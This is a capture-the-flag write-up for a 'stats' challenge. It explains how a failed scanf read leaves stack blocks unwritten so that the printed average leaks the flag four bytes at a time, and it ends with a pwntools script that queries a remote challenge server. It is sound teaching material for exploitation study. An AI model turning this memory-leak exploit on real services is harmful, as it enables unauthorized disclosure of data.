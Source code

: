 The `vuln()` function will read 'blocks' of 1 integer (4 bytes) when calculating the average. In total, we have 16 'blocks' we want to find the characters of. We number these blocks from 0 to 15. Our strategy is as follows:

1. Maintain a cumulative sum of block values. I call this `cum`.
2. We set all blocks 0 to 14 to have an integer value of 0, and enter a character as the integer value of block 15. This causes `scanf` to "skip" the replacement of the characters at block 15.
3. Obtain the average of the 20 blocks, and multiply it by 20 to obtain the integer value of block 15 `res`.
4. Since the binary is little endian, the first character of the block is stored at the lowest byte while the last character of the block is stored at the highest byte. So the first character is the last 8 bits of `res`, the second character is the next 8 bits of `res`, the third character is the next 8 bits of `res` and the last character is the first 8 bits of `res`. This helps us obtain the last 4 characters of the flag which are located in block 15.
5. Increment the value of `cum` by `res`.
6. This time we set all blocks 0 to 13 to have an integer value of 0, and enter a character as the integer value of block 14. This causes `scanf` to "skip" the replacement of the characters at blocks 14 and 15.
7. Obtain the average of the 20 blocks, and multiply it by 20 to obtain the combined integer value of blocks 14 and 15.
8. The integer value of block 14, `res`, is this integer value with `cum` subtracted (recall that `cum` now has the value of block 15).
9. Increment `cum` by `res`.
10. Repeat step 4 to obtain the characters in block 14.
11. Repeat steps 6 - 10, successively decrementing the block at which we enter a character into `scanf("%d", &score[i])`. Doing so, we obtain the characters in all blocks.

Below is the Python script which implements this:

```python
from pwn import *

cum = 0
flag = ""
# iterate through "chunks" of 4 characters
for i in range(16):
    # p = process('./stats')
    p = remote('0.cloud.chals.io', 10198)
    # first 4 chunks do not contain the flag so set to 0 so
    # we don't include their value
    for _ in range(4):
        p.sendlineafter(b":\n", b'0')
    num_zeroes = 16 - i - 1
    for _ in range(num_zeroes):
        p.sendlineafter(b":\n", b'0')
    p.sendlineafter(b":\n", b'a')
    p.recvuntil(b'is ')
    res = p.recvuntil(b'.\n')
    info(res)
    p.close()
    res = res[:-2].decode()
    res = int(float(res) * 20)
    res -= cum
    cum += res
    a = chr(res % 256)
    res >>= 8
    b = chr(res % 256)
    res >>= 8
    c = chr(res % 256)
    res >>= 8
    d = chr(res % 256)
    flag = a + b + c + d + flag

print(f"flag: {flag}")
```
